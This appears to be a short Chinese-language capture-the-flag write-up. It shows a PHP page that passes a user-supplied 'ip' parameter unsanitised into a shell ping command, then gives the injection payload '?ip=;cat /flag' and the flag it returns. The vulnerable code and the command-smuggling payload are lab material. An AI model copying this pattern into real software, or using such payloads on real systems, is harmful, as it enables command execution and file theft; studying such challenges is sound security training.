

## 题目描述
try your best to find the flag

## 解题
打开容器，得到代码：
```php
 <?php
if( isset( $_REQUEST['ip']) ) {
    $target = $_REQUEST[ 'ip' ];
    $cmd = shell_exec( 'ping  -c 4 ' . $target );
    echo  "<pre>{$cmd}</pre>";
}
show_source(__FILE__);

?> 
```

命令执行漏洞
通过传入ip参数进行命令执行，而`echo "<pre>{$cmd}</pre>"`；将结果进行回显 。

构造payload，CTF中有关文件的一般在/flag下：
```txt
?ip=;cat /flag
```



得到`flag{6d9a987f-1c3c-4315-847d-9982db4f807c}` 
